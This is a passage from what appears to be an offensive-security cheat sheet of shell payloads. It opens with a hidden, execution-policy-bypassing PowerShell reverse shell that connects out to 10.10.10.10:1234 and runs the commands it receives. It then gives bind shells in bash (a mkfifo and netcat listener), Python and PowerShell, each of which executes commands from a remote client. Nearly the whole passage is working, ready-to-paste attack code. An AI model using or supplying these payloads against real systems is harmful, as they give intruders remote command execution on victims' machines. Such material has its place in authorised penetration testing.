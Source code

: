 Or inline : `powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()`

### Bind Shell

Bash script :

```
rm /tmp/f;
mkfifo /tmp/f;
cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

Python script :

```
python -c 'exec("""\
  import socket as s,subprocess as sp;\
  s1=s.socket(s.AF_INET,s.SOCK_STREAM);\
  s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);\
  s1.bind(("0.0.0.0",1234));\
  s1.listen(1);\
  c,a=s1.accept();\n\
  while True: \
  	d=c.recv(1024).decode();\
	p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);\
	c.sendall(p.stdout.read()+p.stderr.read())\
""")'
```

Powershell script :

```
powershell -NoP -NonI -W Hidden -Exec Bypass
		   -Command $listener = [System.Net.Sockets.TcpListener]1234;

$listener.start();
$client = $listener.AcceptTcpClient();
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};

while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {;
	$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
	$sendback = (iex $data 2>&1 | Out-String );
	$sendback2 = $sendback + "PS " + (pwd).Path + " ";
	$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
	$stream.Write($sendbyte,0,$sendbyte.Length);
	$stream.Flush()
};

$client.Close();
```
